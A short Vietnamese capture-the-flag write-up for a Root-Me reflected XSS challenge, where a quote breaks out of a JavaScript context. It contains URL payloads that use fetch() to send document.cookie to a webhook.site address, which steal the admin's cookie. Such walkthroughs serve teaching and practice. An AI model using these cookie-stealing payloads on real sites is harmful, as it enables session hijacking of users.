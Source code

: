 Challenge: http://challenge01.root-me.org/web-client/ch32/

Ta thử với 1 số bất kì: 
![alt text](image.png)

Qua mã nguồn ta thấy số 3 được thêm vào:
![alt text](image-1.png)

Dùng `'` để thoát input và chèn thêm js: 
![alt text](image-2.png)
![alt text](image-3.png)


Bây giờ ta chèn thêm webhook để lấy cookie: 
`http://challenge01.root-me.org/web-client/ch32/?number=%27;fetch(%22https://webhook.site/a79b7f74-f2fd-4fa5-8465-8b2b267acf3d%22);//`

![alt text](image-4.png)

Lấy thêm cookie:
`http://challenge01.root-me.org/web-client/ch32/?number=%27;fetch(%22https://webhook.site/a79b7f74-f2fd-4fa5-8465-8b2b267acf3d?c=%22.concat(document.cookie));//`
![alt text](image-5.png)

Gửi admin và nhận flag:
![alt text](image-6.png)



